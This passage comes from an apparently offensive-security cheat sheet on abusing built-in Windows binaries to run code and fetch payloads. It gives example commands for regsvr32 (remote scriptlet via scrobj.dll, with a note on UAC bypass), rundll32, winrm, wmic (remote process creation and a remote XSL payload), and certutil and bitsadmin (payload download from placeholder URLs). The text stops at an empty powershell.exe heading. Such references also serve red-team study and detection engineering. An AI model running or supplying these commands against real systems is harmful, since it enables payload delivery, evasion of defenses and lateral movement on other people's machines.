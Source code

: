 ##### regsvr32.exe

-   Description: Command-line tool that registers dll files as command
    components in the registry. Notable for its use to bypass UAC and useful as
    it supports remote DLL retrieval with scrobj.dll. No arguments need to be
    supplied to regsvr32 if the dll exports the function DllRegisterServer.

-   Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

-   Example: regsvr32 payload.dll

##### rundll32.exe

-   Description: Loads and runs DLLs. Three parameters are typically used, the
    DLL to be executed, the function within the DLL to call and any arguments.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  Example: rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";alert('test');
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### winrm.exe

-   Description: WinRM, or Windows Remote Management provides the ability to
    remotely execute wmi commands. The winrm service is disabled by default but
    can be enabled.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### wmic.exe

-   Description: Command line tool for WMI.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: wmic process call create "cmd.exe /c calc"
  Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  Example: wmic os get /format:"https://server/payload.xsl
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### certutil.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: certutil -ping [URL]
  Example: certutil -urlcache -split -f [URL] [output-file]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### bitsadmin.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### powershell.exe
